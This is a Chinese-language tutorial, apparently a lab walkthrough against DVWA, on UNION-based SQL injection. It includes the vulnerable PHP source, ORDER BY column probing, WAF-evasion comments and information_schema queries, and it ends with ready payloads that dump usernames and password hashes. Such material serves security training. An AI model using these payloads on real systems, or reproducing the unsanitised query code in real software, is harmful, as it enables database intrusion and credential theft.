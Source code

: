## 0x00 union联合注入攻击原理
联合查询注入是联合两个表进行注入攻击，使用关键字union select 对两个表进行联合查询。要注意两个表的字段数要相同，不然会报错，错误是 different number of columns。  
order by N 或者 union select 1,2,3,4,5,6,7,...,N，通过这种方式可以判断查询结果的字段数。  
如果只想要一行数据，就在sql语句后添加 $limit 1$，即为只显示1行数据。$limit 0,1$ 表示从0开始，查询数据显示1行。

## 0x01 --+的作用
--是标准的SQL注释符，--后面的内容被视为注释，SQL引擎会忽略他们。一般情况下，空格字符可能会被过滤或者触发WAF相关规则，所以使用 $+$ 代替空格，在URL编码中，$+$被视为空格的编码形式，所以用$+$代替空格来达到绕过防护的目的。

## 0x02 union select使用方法
在联合查询两个表时，如果两个表显示列数不一样就会报错。例如，guestbook有3个字段，users也需要有3个字段与之匹配，多或者少都会报错。
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select 1,2,3 from users;
```
可以把1，2，3替换为数据库关键信息函数database()、version()、user()等：
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select database(),user(),version() from users;
```
还可以替换成数据表中的字段：
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select user_id,user,password from users;
```
如果不加  $limit 1$ 会把所有信息显示出来，但是有时候网页前端只有一条数据的回显位置，所以需要限定条件，只显示1行数据。
```sql
SELECT * FROM guestbook WHERE comment_id=1 union select user_id,user,password from users limit 1
```
此时显示的是guestbook这个数据库中的原有的1条数据，并不是我想要的，我想要的是users表中的每一条数据，所以我们可以把comment_id这个限制条件做修改，如果让comment_id=-1的话，查询结果为空，就可以显示后面联合查询的结果了，所以修改payload如下，此时可以显示users表中的第一条数据：
```sql
SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 1
```
想要查看接下来的几条数据可以这样修改：
```sql
SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 1，1

SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 2，1

SELECT * FROM guestbook WHERE comment_id=-1 union select user_id,user,password from users limit 3，1
```

## 0x03 代码分析
```php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```
使用\$_REQUEST$直接接收$id$参数，没有进行任何过滤，同时可以接收cookie get post这些传递方法。接下来需要判断是字符型注入还是整型注入，输入单引号$'$ 会出现报错语句You have an error in your SQL syntax; 可以知道属于字符型注入，在进行注入检测时要注意单引号闭合。

## 0x04 union select联合注入流程
首先，输入 1'and '1'='1 页面返回用户信息 1'and '1'='2 页面返回不一样的信息。基本可以确定存在 SQL 注入漏洞。  
接下来要判断字段数，使用语句 order by 确定当前表的查询结果字段数。order by 1 如果页面返回正常 字段数不少于 1,order by 2 不少于 2，一直如此类推直到页面出错。正确的字段数是出错数字减少 1。  
通过联合查询确定回显位置：-1' union select 1,2--+ 可以看到在网页中显示1，2的位置，便是注入回显位置，我们通过这个回显拿敏感信息。  
注意：把数据替换成 mysql 的函数例如 md5(1) 这会在页面返回 1 的 md5 加密信息。使用这个函数一般是白帽子扫描器匹配存在漏洞的特征码。  
还可以查看以下数据：
- version() mysql 版本；
- database() 当前数据库；
- user() 当前用户名；
- group_concat()分组打印字符串；  
```sql
'-1' union select 1,group_concat(user(),0x3A,database(),0x3A,version())--+
```
其中0x3a是冒号 : 的16进制HEX编码，MySQL可以把0x3a自动识别成冒号，上面payload可以把各种信息用冒号分隔开，便于查看。
```bash
mysql> select group_concat(0x3a);
+--------------------+
| group_concat(0x3a) |
+--------------------+
| :                  |
+--------------------+
1 row in set (0.00 sec)
```
之后得到当前数据库名dvwa。  
接下来可以通过 mysql 自带的 information_schema 查询当前库的表：
```bash
mysql> select first_name,last_name from users where user_id='-1' union select 1,group_concat(table_name) from information_schema.TABLES where table_schema=database();
+------------+-----------------+
| first_name | last_name       |
+------------+-----------------+
| 1          | guestbook,users |
+------------+-----------------+
```
通过上面命令得到当前数据库（dvwa）中有两个表，分别是 guestbook 和 users，猜测users里面会有敏感信息，所以在 information_schema库对应的COLUMNS表中查看users表的字段。
```bash
mysql> select first_name,last_name from users where user_id='-1' union select 1,group_concat(column_name) from information_schema.COLUMNS where table_schema=database() and table_name='users';
+------------+---------------------------------------------------------------------------+
| first_name | last_name                                                                 |
+------------+---------------------------------------------------------------------------+
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
```
如果只有一个回显位置的话，我们需要利用limit来限制回显数量，具体payload如下：
```sql
#获取 users 表第一个字段名
'-1' union select 1,((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 1))--+

#获取 users 表第二个字段名
'-1' union select 1,((select COLUMN_NAME from information_schema.COLUMNS where TABLE_NAME='users' limit 2,1))--+
```
最后步骤，通过以上的黑盒查询获取库名、表名、字段名、那么就可以查询某个表的内容。
```sql
'-1' union select 1,(select group_concat(user,0x3a,password) from users limit 1)--+
```

## 0x05 嵌套查询
在上面SQL语句中，涉及到了嵌套查询，只需要把子查询括起来，放到select参数位置处即可。
```sql
select 1,(select group_concat(user,0x3a,password) from users);
```